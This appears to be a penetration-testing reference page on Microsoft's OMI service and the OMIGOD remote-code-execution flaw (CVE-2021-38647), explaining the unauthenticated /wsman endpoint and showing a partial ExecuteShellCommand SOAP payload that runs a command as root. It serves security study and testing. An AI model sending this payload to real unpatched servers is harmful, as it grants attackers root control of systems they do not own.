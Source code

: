 # 5985,5986 - Pentesting OMI





### **Basic Information**

**OMI** is presented as an **[open-source](https://github.com/microsoft/omi)** tool by Microsoft, designed for remote configuration management. It's particularly relevant for Linux servers on Azure that utilize services such as:

- **Azure Automation**
- **Azure Automatic Update**
- **Azure Operations Management Suite**
- **Azure Log Analytics**
- **Azure Configuration Management**
- **Azure Diagnostics**

The process `omiengine` is initiated and listens on all interfaces as root when these services are activated.

**Default ports** used are **5985** (http) and **5986** (https).

### **[CVE-2021-38647 Vulnerability](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-38647)**

As observed on September 16, Linux servers deployed in Azure with the mentioned services are susceptible due to a vulnerable version of OMI. This vulnerability lies in the OMI server's handling of messages through the `/wsman` endpoint without requiring an Authentication header, incorrectly authorizing the client. 

An attacker can exploit this by sending an "ExecuteShellCommand" SOAP payload without an Authentication header, compelling the server to execute commands with root privileges.

```xml
<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing"
   ...
   <s:Body>
      <p:ExecuteShellCommand_INPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">
         <p:command>id</p:command>
         <p:timeout>0</p:timeout>
      </p:ExecuteShellCommand_INPUT>
   </s:Body>
</s:Envelope>
```

For a more information about this CVE **[check this](https://github.com/horizon3ai/CVE-2021-38647)**.

## References

* [https://www.horizon3.ai/omigod-rce-vulnerability-in-multiple-azure-linux-deployments/](https://www.horizon3.ai/omigod-rce-vulnerability-in-multiple-azure-linux-deployments/)
* [https://blog.wiz.io/omigod-critical-vulnerabilities-in-omi-azure/](https://blog.wiz.io/omigod-critical-vulnerabilities-in-omi-azure/)




